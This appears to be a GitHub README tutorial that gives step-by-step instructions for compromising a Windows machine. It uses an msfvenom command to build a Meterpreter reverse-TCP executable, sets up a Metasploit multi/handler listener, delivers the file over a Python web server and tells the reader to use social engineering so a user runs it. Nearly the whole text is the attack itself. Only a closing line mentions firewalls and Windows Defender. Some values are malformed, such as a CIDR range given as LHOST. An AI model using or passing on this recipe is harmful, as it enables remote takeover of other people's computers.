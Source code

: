 # windows-hacking
WINDOWS AND LINUX HACKING

		
Create metasploit:

Before creating the metasploit, we need to figure out what is our Kali Linux local IP.
For that, run  “ip addr”  or  “ifconfig”
![image](https://github.com/user-attachments/assets/f5e84bbf-46d3-4ce6-b433-0c35288705fa)

 
In the terminal run the follow command:

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.0/24 LPORT=4444 –f exe > reverse_shell.exe
![image](https://github.com/user-attachments/assets/1e650a7e-9308-48b6-be77-7e482e8eadc0)

 

The command above instructs msfvenom to generate a 32-bit Windows executable file that implements a reverse TCP connection for the payload. The format must be specified as being type .exe, and the local host (LHOST) and local port (LPORT) have to be defined. In our case, the LHOST is the IP address of our attacking Kali Linux machine that we got in the last command, and the LPORT is the port to listen on for a connection from the target once it has been compromised.
The name of the .exe is up to you. In this case I’ll be using reverse_shell.exe because our target will be a only for test purpose.

Connection:


We now need to set up a listener on the port we determined within the executable. We do this by launching Metasploit using the command msfconsole on the Kali Linux terminal.
![image](https://github.com/user-attachments/assets/659e1ce5-8860-4f95-8c75-62ee6d1ce198)

 
The screenshot below shows what commands to issue within Metasploit. First, we’ll tell Metasploit to use the generic payload handler “multi/handler” using the command “use multi/handler”. We will then set the payload to match the one set within the executable using the command “set  payload windows/meterpreter/reverse_tcp”. We will then set the LHOST and LPORT this way — “set LHOST 192.168.47.152”and  “set  LPORT 4444”. Once done, type ```run``` or ```exploit```and press Enter.
The screenshot below displays the output. The reverse TCP handler should begin waiting for a connection.

![image](https://github.com/user-attachments/assets/57dae01d-54fe-45e2-b071-0a04e5315e80)

You can use show “options” command  to check if everything’s ok
![image](https://github.com/user-attachments/assets/3f18bc7f-c2b6-4388-9cb0-6219b44c6b09)


If everything’s ok type run or exploit
![image](https://github.com/user-attachments/assets/99756288-e6f7-4914-9cbc-caef4fafc2b4)

 

Social Engineer:


Now it’s the part that you need to do some social engineer in order to make the user execute the program.
For this tutorial we will simply host the .exe on python3 and transfer it on the Windows Machine.
![image](https://github.com/user-attachments/assets/f59d1b56-0155-42ee-a8e2-958d098eb64d)

 
On the Windows machine you just need to access via the browser the IP/File.exe
In our case is 192.168.o.o/24:8888/reverse_shell.exe .  Host  in python

![image](https://github.com/user-attachments/assets/0ffef250-39db-4dc3-a5d7-4aed0dfccd94)



 
Now execute and check the connection on the Kali Machine.
![image](https://github.com/user-attachments/assets/957c6ca9-9f2f-46fd-b35d-2f09ae9c1591)


 

 

Successfully compromise my windows machine using kali linux. It is only for educational purpose only.

How to Protect:
For this type of attacks the most important thing is to have the Firewall enabled. Windows Defender makes a good job protecting files like this.



